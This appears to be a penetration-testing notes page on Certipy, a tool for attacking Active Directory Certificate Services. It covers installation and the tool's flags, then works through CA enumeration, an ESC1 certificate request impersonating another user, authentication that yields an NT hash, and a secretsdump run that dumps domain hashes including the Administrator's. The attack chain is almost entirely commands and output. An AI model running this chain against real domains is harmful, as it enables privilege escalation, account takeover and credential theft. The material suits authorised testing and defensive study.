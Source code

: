 ```yaml
---
title : "Certipy"
# pre : ' '
description : "Active Directory Certificate Services enumeration and abuse."
date : 2022-10-11T10:36:25+02:00
# hidden : true
# draft : true
weight : 290
tags : ['Other', 'Active Directory', 'ADCS']
---
```


---

Active Directory Certificate Services enumeration and abuse.

## Installation

```plain
git clone https://github.com/ly4k/Certipy
sudo python3 setup.py install
```

## Usage

```plain
certipy [-v] [-h] {account,auth,ca,cert,find,forge,ptt,relay,req,shadow,template} ...
```

## Flags

```plain
Certipy v4.8.2 - by Oliver Lyak (ly4k)

positional arguments:
  {account,auth,ca,cert,find,forge,ptt,relay,req,shadow,template}
                        Action
    account             Manage user and machine accounts
    auth                Authenticate using certificates
    ca                  Manage CA and certificates
    cert                Manage certificates and private keys
    find                Enumerate AD CS
    forge               Create Golden Certificates
    ptt                 Inject TGT for SSPI authentication
    relay               NTLM Relay to AD CS HTTP Endpoints
    req                 Request certificates
    shadow              Abuse Shadow Credentials for account takeover
    template            Manage certificate templates

options:
  -v, --version         Show Certipy's version number and exit
  -h, --help            Show this help message and exit
```

## Examples

For more examples please check the [Github Repo](https://github.com/ly4k/Certipy).

### Finding CA

```plain
$ certipy find -u crypt0rr@offsec.nl -p Welkom1234 -dc-ip 10.10.10.10
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 9 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 8 enabled certificate templates
[*] Trying to get CA configuration for 'CA01-OFFSEC' via CSRA
[*] Got CA configuration for 'CA01-OFFSEC'
[*] Saved BloodHound data to '202210114803_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '202210114803_Certipy.txt'
[*] Saved JSON output to '202210114803_Certipy.json'
```

### Exploiting ESC1

To find the exact Certificate Authority (CA) use `certutil –config – -ping` in CMD (<https://www.cloudservus.com/blog/how-to-find-a-certificate-authority-in-your-active-directory-environment>).

```plain
$ certipy req -u 'crypt0rr.offsec.nl' -p 'Welkom1234' -target 'dc01.offsec.nl' -ca 'CA01-OFFSEC' -template 'ESC1' -upn 'john-da@offsec.nl'
Certipy v4.0.0 - by Oliver Lyak (Ly4k)
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 707
[*] Got certificate with UP 'john-da@offsec.nl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'john-da.pfx'
```

```plain
$ certipy auth -pfx 'john-da.pfx' -dc-ip '10.10.10.11' -username 'john-da' -domain 'offsec.nl'
Certipy v4.0.0 - by Oliver Lyak (ly4k)
[*] Using principal: john-da@offsec.nl
[*] Trying to get TGT.
[*] Got TGT
[*] Saved credential cache to john-da.ccache'
[*] Trying to retrieve NT hash for 'john-da'
[*] Got hash for 'john-da@offsec.nl': aad3b435b51404eeaad3b435b51404ee:caec1e1d755119a15bfb6cd3d5994305
```

```plain
$ secretsdump.py -just-dc -hashes 'aad3b435b51404eeaad3b435b51404ee:caec1e1d755119a15bfb6cd3d5994305' 'offsec.nl/john-da@dc01.offsec.nl'
Impacketv0.10.1.dev1+20220504.120002.d5097759 - Copyright 2022 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\id:rid: lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5f859684db2422704e9e4c2cd7e27b07:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
```

## URL List

- [Github.com - Certipy](https://github.com/ly4k/Certipy)
